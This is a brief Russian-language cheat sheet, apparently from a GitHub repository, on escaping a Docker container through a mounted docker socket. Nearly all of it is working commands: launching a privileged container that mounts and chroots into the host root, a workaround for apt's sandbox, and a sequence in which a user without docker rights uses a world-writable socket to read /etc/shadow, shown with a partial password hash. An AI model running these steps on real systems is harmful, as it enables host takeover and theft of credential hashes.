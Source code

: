 # Примонтированный docker сокет внутрь контейнера

Запускаем уязвимый контейнер
```bash
docker run -it -v /var/run/docker.sock:/run/docker.sock ubuntu_golden_image:v01 bash
```

Внутри контейнера запускаем новый привилегированный контейнер
```bash
docker run -it --privileged -v /:/host/ ubuntu bash -c "chroot /host/"
```

(Если вдруг не работает `apt update` внутри контейнера)
```bash
cat <<EOF > /etc/apt/apt.conf.d/sandbox-disable
APT::Sandbox::User "root";
EOF
```

Эксплуатация Docker-Socket-а пользователем без прав на docker
```
(host)$ groups | grep -o docker
(host)$ ls -l /var/run/docker.sock
srw-rw-rw- 1 root docker 0 Dec 20 13:16 /var/run/docker.sock
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash 
(cont)# grep admin /host/etc/shadow admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
```